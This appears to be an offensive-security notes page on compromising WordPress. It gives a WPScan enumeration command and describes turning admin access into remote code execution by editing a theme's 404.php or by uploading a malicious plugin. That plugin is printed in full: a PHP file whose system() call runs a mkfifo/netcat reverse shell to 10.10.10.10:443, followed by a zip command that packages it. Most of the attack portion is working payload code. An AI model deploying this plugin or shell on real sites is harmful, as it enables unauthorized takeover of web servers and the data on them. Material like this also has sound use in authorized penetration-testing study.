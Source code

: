 ```yaml
---
title: WordPress
category: Software
order: 1
---
```


Wordpress is maybe the most common CMS on internet.

# WPScan

```
wpscan --url http://example.com -e ap,at,cb,dbe,u1-5,m1-15 --api-token <APITOKEN>
```

# From Admin to RCE

## Theme Editor

We can modify a theme by adding a reverse shell or a webshell on the 404.php file.

## Installing Plugin

Another way to obtain a reverse shell is to upload and install a plugin. It is important to add the comment lines in order to a successful installation.

```
<?php
    /*
    Plugin Name: HackinNotes Wordpress Shell
    Plugin URI: https://github.com/leonjza/wordpress-shell
    Description: Execute Commands as the webserver you are serving wordpress with! Shell will probably live at /wp-content/plugins/shell/shell.php. Commands can be given using the 'cmd' GET parameter. Eg: "http://192.168.0.1/wp-content/plugins/shell/shell.php?cmd=id", should provide you with output such as <code>uid=33(www-data) gid=verd33(www-data) groups=33(www-data)</code>
    Author: Leon Jacobs
    Version: 0.3
    Author URI: https://leonjza.github.io
    */

system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 443 >/tmp/f");?>
```

After that we just need to zip it and install.

```
zip revshell-plugin.zip revshell-plugin.php
```

